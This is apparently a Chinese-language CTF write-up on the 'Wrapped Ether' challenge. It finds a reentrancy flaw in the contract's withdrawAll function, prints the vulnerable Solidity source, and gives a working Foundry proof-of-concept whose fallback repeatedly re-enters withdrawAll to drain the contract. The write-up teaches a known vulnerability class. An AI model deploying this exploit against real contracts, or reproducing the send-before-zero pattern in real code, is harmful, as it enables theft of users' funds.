

## Wrapped Ether

### 目标：

耗尽合约资金。

### 思路：

刚开始看到合约中有 `transferFrom` 和 `approve` 函数，以为先授权再使用 `transferFrom` 转账，就可以提出合约中的资金。但是观察 `approve` 函数的逻辑：

```solidity
function approve(address spender, uint256 amount) external {
    allowance[msg.sender][spender] = amount;
    emit Approval(msg.sender, spender, amount);
}
```

这个函数只能由攻击者授权其他地址转移自己的余额，并不能转移合约中的资金。

继续观察后发现，`withdrawAll` 函数的逻辑存在问题：

```solidity
function withdrawAll() external {
    sendEth(payable(msg.sender), balanceOf[msg.sender]);
    balanceOf[msg.sender] = 0;
    emit Withdraw(msg.sender, balanceOf[msg.sender]);
}
```

函数先转账，之后才清零余额，这是典型的重入漏洞。攻击合约可以在 `fallback` 函数中重复调用 `withdrawAll`，直到目标合约余额不足。观察部署时存入的资金均为整数，因此每轮提取 1 ether 即可。

### 源码：

```solidity
pragma solidity 0.8.20;

import {IWrappedEther} from "./interfaces/IWrappedEther.sol";

contract WrappedEther is IWrappedEther {
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    function deposit(address to) external payable {
        balanceOf[to] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw(uint256 amount) external {
        require(balanceOf[msg.sender] >= amount, "insufficient balance");
        balanceOf[msg.sender] -= amount;
        sendEth(payable(msg.sender), amount);
        emit Withdraw(msg.sender, amount);
    }

    function withdrawAll() external {
        sendEth(payable(msg.sender), balanceOf[msg.sender]);
        balanceOf[msg.sender] = 0;
        emit Withdraw(msg.sender, balanceOf[msg.sender]);
    }

    function transfer(address to, uint256 amount) external {
        require(balanceOf[msg.sender] >= amount, "insufficient balance");
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        emit Transfer(msg.sender, to, amount);
    }

    function transferFrom(address from, address to, uint256 amount) external {
        require(balanceOf[from] >= amount, "insufficient balance");
        require(
            allowance[from][msg.sender] >= amount,
            "insufficient allowance"
        );
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        allowance[from][msg.sender] -= amount;
        emit Transfer(from, to, amount);
    }

    function approve(address spender, uint256 amount) external {
        allowance[msg.sender][spender] = amount;
        emit Approval(msg.sender, spender, amount);
    }

    function sendEth(address payable to, uint256 amount) private {
        (bool success, ) = to.call{value: amount}("");
        require(success, "failed to send ether");
    }
}
```

### POC：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";
import "../src/WrappedEther.sol";

contract Middle {
    WrappedEther weth = WrappedEther(0x78aC353a65d0d0AF48367c0A16eEE0fbBC00aC88);

    function hack() external payable {
        weth.deposit{value: msg.value}(address(this));
        weth.withdrawAll();
    }

    fallback() external payable {
        uint256 withdrawAmount = weth.balanceOf(address(this));
        if (address(weth).balance >= withdrawAmount) {
            weth.withdrawAll();
        }
    }
}

contract IsSolved is Script {
    function run() external {
        vm.startBroadcast();

        Middle middle = new Middle();
        middle.hack{value: 1 ether}();

        vm.stopBroadcast();
    }
}
```


